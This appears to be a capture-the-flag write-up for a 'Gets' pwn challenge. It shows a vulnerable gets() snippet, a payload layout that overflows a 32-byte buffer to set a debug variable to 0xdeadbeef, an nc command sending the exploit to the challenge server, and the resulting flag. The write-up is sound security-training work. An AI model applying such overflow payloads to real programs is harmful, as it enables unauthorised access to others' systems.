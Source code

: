 # Gets
>My favorite libc function is gets. I am very confident in its security. Connect with
nc gets.litctf.live 1337
>
>133 solves / 120 points

Two checks:

1. Strcmp(buf, "Yes")
2. debug==0xdeadbeef

```
long debug = 0; 
char buf[0x20];
gets(buf);

if(strcmp(buf, "Yes") == 0){
                puts("I'm glad you understand.");
                if(debug == 0xdeadbeef){
```

Binary is in little endian, so when creating payload need to reverse 0xdeadbeef

Need to overwrite the buf variable so that it will overflow into the long debug local variable.

For checks:
1. Yes\0 + NOP till debug variable
2. \xef\xbe\xad\xde

At first I brute forced from 30 to 40 (see run.bash) as I didn't know how to calculate the offset. I knew that the buf variable had a buffer size of 32 bytes, so it was somewhere there.

Offset: 32 bytes (char buf[0x20];) + 4 bytes 

```
$ python gets.py 36 | nc gets.litctf.live 1337
== proof-of-work: disabled ==
Gets is very secure. You may see other sources tell you otherwise, but they are wrong.
Geeksforgeeks says gets is insecure. G4g also says graph coloring can be solved in O(n).
Wikipedia says gets is insecure. Anyone can write anything on wikipedia, it is unreliable.
The linux docs say gets is insecure. No one reads the linux docs except stuck up nerds.
My compiler warned me gets is insecure. My compiler also can't add semicolons automatically
Hopefully you can see that gets is in fact secure, and all who tell you otherwise are lying.

Are you starting to understand?
I'm glad you understand.
Debug info:
flag{d0_y0u_g3ts_1t}
```
